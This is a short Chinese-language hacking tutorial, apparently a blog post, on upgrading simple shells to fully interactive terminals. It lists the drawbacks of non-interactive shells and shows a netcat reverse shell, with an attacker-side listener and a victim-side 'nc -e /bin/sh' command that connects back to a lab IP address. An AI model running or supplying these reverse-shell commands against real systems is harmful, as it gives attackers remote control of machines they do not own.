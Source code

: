 # 将普通shell升级为全交互式终端

见[Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/):https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


非交互式的终端缺点很多：
- 标准错误信息不会显示
- 不能正常使用vim
- 没有命令补全
...

## NC反向Shell

攻击机器进行nc监听：

```bash
nc -nvlp 8888
```

![](/img/hack/tty_shell/nc_listen.png)

被攻击机器:

```bash
nc -e /bin/sh 10.10.10.166 8888
```

![](/img/hack/tty_shell/nc_connect.png)

